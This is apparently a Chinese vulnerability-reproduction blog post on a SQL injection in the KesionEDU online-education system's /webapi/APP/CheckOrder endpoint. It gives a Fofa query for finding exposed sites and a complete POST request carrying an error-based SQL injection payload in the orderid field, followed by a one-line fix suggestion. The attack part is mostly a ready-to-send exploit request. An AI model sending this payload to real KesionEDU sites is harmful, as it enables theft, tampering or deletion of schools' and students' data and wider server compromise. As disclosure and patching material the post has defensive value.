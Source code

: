 ```yaml
---
layout: post
title: 科汛网校系统KesionEDU CheckOrder SQL注入漏洞
abbrlink: f1b3b83655a44884868ef8f4c95efbab
tags: []
categories:
  - 漏洞挖掘与复现
  - 网站cms
  - 科汛
date: 1735290701338
updated: 1735292063050
---
```


## 产品简介

<blockquote>科汛网校KesionEDU是KESION科汛开发的在线教育建站系统，支持在线直播教学、课程点播、录播授课等多种教学方式，满足不同场景下的教学需求。提供问答互动、学习点评、在线笔记等功能，增强学员与教师之间的互动交流。拥有在线考试系统，支持单选、多选、问答等多种题型，方便学员进行课后测练和考试。供求职招聘功能，方便教育机构网罗各地人才，增强平台吸引力。提供全方位的技术支持和售后服务，确保教育机构在使用过程中无后顾之忧。是教育机构搭建在线教育平台的理想选择，利用测绘引擎搜索发现影响资产1100+。</blockquote>

## 漏洞描述

<blockquote>SQL注入被广泛用于非法入侵网站服务器，获取网站控制权。它是应用层上的一种安全漏洞。通常在设计存在缺陷的程序中，对用户输入的数据没有做好过滤，导致恶意用户可以构造一些SQL语句让服务器去执行，从而导致数据库中的数据被窃取，篡改，删除，以及进一步导致服务器被入侵等危害。</blockquote>

## Fofa语法

```
body="/KS_Inc/static/edu"
```

## 漏洞复现

```
POST /webapi/APP/CheckOrder HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Connection: close
Content-Length: 242
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Priority: u=0
X-Requested-With: XMLHttpRequest

{"orderid":"1' AND 7755 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(112)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (7755=7755) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(107)+CHAR(107)+CHAR(113)))-- Ahbw","apptoken":"1","ordertype":"1"}

```

## 修复建议

<blockquote>关闭互联网暴露面或接口设置访问权限，官方已经推出新版本，建议升级到最新版。</blockquote>
